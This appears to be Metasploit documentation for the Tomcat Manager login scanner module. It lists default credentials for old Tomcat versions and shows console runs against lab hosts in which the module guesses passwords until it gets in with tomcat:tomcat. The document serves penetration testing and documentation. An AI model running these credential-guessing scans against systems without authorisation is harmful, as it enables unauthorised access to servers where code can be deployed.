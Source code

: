 The `auxiliary/scanner/http/tomcat_mgr_login` works for Tomcat versions that uses HTTP
authentication.

Please note that for Tomcat 7 or newer, the roles required to use the manager application were
changed from the single `manager` role to the following four roles:

* manager-gui - Allows access to the HTML GUI and the status pages.
* manager-script - Allows access to the text interface and the status pages.
* manager-jmx - Allows access to the JMX and the status pages.
* manager-status - allows access to the status pages only.

Older versions of Tomcat came with default passwords enabled by default. For example:

**Tomcat 4**

| Username | Password | Role          |
| -------- | -------- | ------------- |
| tomcat   | tomcat   | tomcat        |
| role1    | tomcat   | role1         |
| both     | tomcat   | tomcat, role1 |

**Tomcat 5**

Same as Tomcat 4

Newer Tomcat versions have these passwords commented out.

If you are using the default Metasploit credential lists, these usernames and passwords are already
loaded.


## Vulnerable Application

To download the vulnerable application, you can find it here: https://tomcat.apache.org/whichversion.html.

## Verification Steps

1. Do: ```auxiliary/scanner/http/tomcat_mgr_login```
2. Do: ```set RHOSTS [IP]```
3. Set TARGETURI if necessary.
4. Do: ```run```

## Scenarios

All scenarios are run with the credentials tomcat/tomcat.

### Tomcat 6

Tomcat 6.0.48 running on Ubuntu 14.04

```
msf > use auxiliary/scanner/http/tomcat_mgr_login
msf auxiliary(tomcat_mgr_login) > set rport 8080
rport => 8080
msf auxiliary(tomcat_mgr_login) > set rhosts 192.168.2.156
rhosts => 192.168.2.156
msf auxiliary(tomcat_mgr_login) > run

[!] No active DB -- Credential data will not be saved!
[-] 192.168.2.156:8080 - LOGIN FAILED: admin:admin (Incorrect)
```
...snip...

```
[-] 192.168.2.156:8080 - LOGIN FAILED: tomcat:root (Incorrect)
[+] 192.168.2.156:8080 - LOGIN SUCCESSFUL: tomcat:tomcat
[-] 192.168.2.156:8080 - LOGIN FAILED: both:admin (Incorrect)
```
...snip...

```
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Tomcat 7

Tomcat 7.0.68 running on Windows XP

```
msf > use auxiliary/scanner/http/tomcat_mgr_login
msf auxiliary(tomcat_mgr_login) > set rport 8087
rport => 8087
msf auxiliary(tomcat_mgr_login) > set rhosts 192.168.2.108
rhosts => 192.168.2.108
msf auxiliary(tomcat_mgr_login) > run

[!] No active DB -- Credential data will not be saved!
[-] 192.168.2.108:8087 - LOGIN FAILED: admin:admin (Incorrect)
```

...snip...

```
[-] 192.168.2.108:8087 - LOGIN FAILED: tomcat:root (Incorrect)
[+] 192.168.2.108:8087 - LOGIN SUCCESSFUL: tomcat:tomcat
[-] 192.168.2.108:8087 - LOGIN FAILED: both:admin (Incorrect)
```

...snip...

```
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Tomcat 8

Tomcat 8.0.32 unning on Windows XP

```
msf > use auxiliary/scanner/http/tomcat_mgr_login
msf auxiliary(tomcat_mgr_login) > set rhosts 192.168.2.108
rhosts => 192.168.2.108
msf auxiliary(tomcat_mgr_login) > set rport 8088
rport => 8088
msf auxiliary(tomcat_mgr_login) > run

[!] No active DB -- Credential data will not be saved!
[-] 192.168.2.108:8088 - LOGIN FAILED: admin:admin (Incorrect)
```

...snip...

```
[-] 192.168.2.108:8088 - LOGIN FAILED: tomcat:root (Incorrect)
[+] 192.168.2.108:8088 - LOGIN SUCCESSFUL: tomcat:tomcat
[-] 192.168.2.108:8088 - LOGIN FAILED: both:admin (Incorrect)
```

...snip...

```
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
